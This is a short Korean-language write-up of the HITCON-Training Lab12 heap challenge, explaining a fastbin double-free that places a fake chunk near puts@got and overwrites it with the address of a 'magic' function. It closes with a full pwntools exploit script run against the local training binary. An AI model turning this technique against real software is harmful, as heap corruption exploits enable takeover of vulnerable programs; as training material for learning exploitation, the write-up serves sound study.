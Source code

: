 ```yaml
---
title: "[HITCON-Training]Lab12"
date: 2020-1-21
tags: [hitcon]
categories: [HITCON-Training]
---
```


fastbin dup문제다.

puts@got의 주소보다 낮은 `0x601ffa` 에 사이즈가 0x60되게 할 수 있는 fake chunk를 만들 수 있다. 그러면 데이터가 쓰여지는 영역은 `0x60200a` 이고 이후 puts@got overwrite해주면 된다. 할당해주는 사이즈는 헤더를 제외한 0x50만큼만 해주면 된다.

> exploit.py

```python
from pwn import *

context.log_level = 'debug'
e = ELF('./secretgarden')
p = process('./secretgarden')
sla = lambda x,y : p.sendlineafter(x,y)
sa = lambda x,y : p.sendafter(x,y)

def add(size,name,color):
	sla(':','1')
	sla(':',str(size))
	sa(':',name)
	sla(':',color)

def visit():
	sla(':','2')

def remove(idx):
	sla(':','3')
	sla(':',str(idx))

def clean():
	sla(':','4')

def leave():
	sla(':','5')

add(0x50,'a','a')
add(0x50,'b','b')
remove(0)
remove(1)
remove(0)
add(0x50,p64(0x601ffa),'c') # fake chunk
add(0x50,'e','e')
add(0x50,'f','f')
add(0x50,'A'*22 + p64(e.symbols['magic']),'B') # puts@got 

p.interactive()
```

